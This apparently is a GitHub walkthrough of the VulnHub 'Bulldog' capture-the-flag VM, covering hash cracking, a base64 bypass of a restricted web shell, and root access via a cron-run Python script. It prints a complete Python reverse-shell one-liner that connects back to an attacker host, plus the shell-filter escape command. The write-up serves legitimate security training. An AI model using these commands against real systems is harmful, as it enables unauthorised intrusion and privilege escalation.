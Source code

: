 <b>VM name:</b> 
Bulldog

<b>Objective:</b>
Get root!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogIP.png">

After loading this VM up in VirtualBox, it gives us the box's IP, so no real need to do an arp-scan to find out our target address.
So, first things first, let's run an Nmap scan to see what ports and services are available!
(*Please note that I worked on this VM and write-up from two different locations, so the DHCP IP address will appear different in certain screenshots. There are also times I switch back and forth between my Kali box and my Ubuntu box)

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_nmapscan.png">

It seems they are running SSH on port 23 (it's not running as telnet), and there is some web activity on 80 and 8080. Exploring the web stuff first, I confirmed that both 80 and 8080 are just mirrors of each other and couldn't find any differences. We are first greeted with this landing page. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldoglanding.png">

The initial page doesn't offer much other than info that they've been breached. The source code didn't have anything interesting either--nor did the link to the Notice page. So, perhaps something is hiding on this domain somewhere. First thing I looked at: robots.txt. But it was a troll.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_robots.png">

Time to load up Sparta and see if it can detect anything interesting to explore.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_spartaresults.png">

Hmm, this looks good. A dev page! 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_dev.png">

Nice, a system overhaul to make it more secure. But is it really? There's a bunch of info on employees here which could be useful. Clicking on the web-shell, it seems we need authentication to proceed. What to do, what to do...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshell.png">

Let's check the source code for the /dev page. Sure enough we find something interesting!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_devhashes.png">

Those are SHA-1 hashes, so let's run em in a decoder to see if we can get any plaintext passwords. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_sha1decrypt.png">

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcreds.png">

Nice! We have two results, which gives us a pair of credentials for something. But for what? I immediately tried the credentials on the SSH port, but no luck there, so there must be something else. Is there an admin page hiding? Yep!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogadmin.png">

Logging in with Nick's credentials, we can then access the web-shell as we are authenticated.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_django_nicklogin.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshellloggedin.png">

Neat. As the text on the /dev page mentioned, this is a shell interface, but it looks like we are limited only to a couple of commands. Semi-colon doesn't work to escape, and we get a message busting us! However, there are more ways than just that to escape. Can we trick it by passing all of our commands through base64? Let's test it with the following:

echo 'whoami'|base64|base64 -d|sh

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/echotest.png">

Sweet, it works. Now we can fully interact with the shell and pass whatever commands we like. While we don't need to pass it through base64, let's see if there is anything interesting in the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_etcpasswd.png">

Not too much here, but let's explore some other directories and files that you can usually bet on having something good. Next stop is /etc/cron.d!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcron.png">

Running cat on each of these files, runAV contained something suspicious and worth checking out--a hidden directory with an application.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenscript.png">

Awesome--so this means that this application is run AS ROOT every minute. Let's cat the contents.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenPYTHON.png">

You dun messed up Alan! Now we have a vector for getting a reverse shell and potentially even more (priviledge escalation!). Since this is already set as a python script, we can echo in python code to this file to get a reverse shell up.
Pentest Monkey's Reverse Shell Cheatsheet is a good resource for reverse shell information, and we can utilize the following Python reverse shell code:

'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR IP ADDRESS",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Let's setup a listening port with netcat on our machine, and then add the code to the application using our web-shell.
Remember, however, we can't use any semi-colons since they will be detected, so instead, we need to split this up line by line. A little tedious, but it will be worth it if it works.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/listening.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/pythoncode.png">

Now we just wait a minute annnnnnnnnd...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/rootshell.png">

Amazing! We are in AND we are also root since it executed under root! 

Now, I know that we are alread root and our primary objective is done... but the box is challenging us with another way to get root, and I'm not one to turn down a challenge! Time to explore all the files and see if there is anything in here that is interesting.

Checking out the home folder we find the Bulldogadmin user we knew existed from the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddendirectory.png">

Seriously, what is with this company and hidden directories and prefacing them as 'hidden'--kind of a dead giveaway, no? 
At least name it 'garbage'! :P

In the hidden directory we find an app (customPermissionApp) and a note...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddennote.png">

Thanks Ashley! But unfortunately we can't run it. Perhaps, however, there is something useful we can find by running strings on the executable?

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/permissiondenied_strings.png">

'SUPERultimatePASSWORDyouCANTget'

Winner, winner, chicken dinner! That looks like it could definitely be a password when put together (and it says it's a password!), unless we are getting super trolled. While I did not attempt to gain access through different means, I am certain that if the box can be accessed with a different user, we can use this password to gain root priviledges via 'sudo su'.

Seems like Bulldog Industries still has a ways to go before they are safe from breaches!
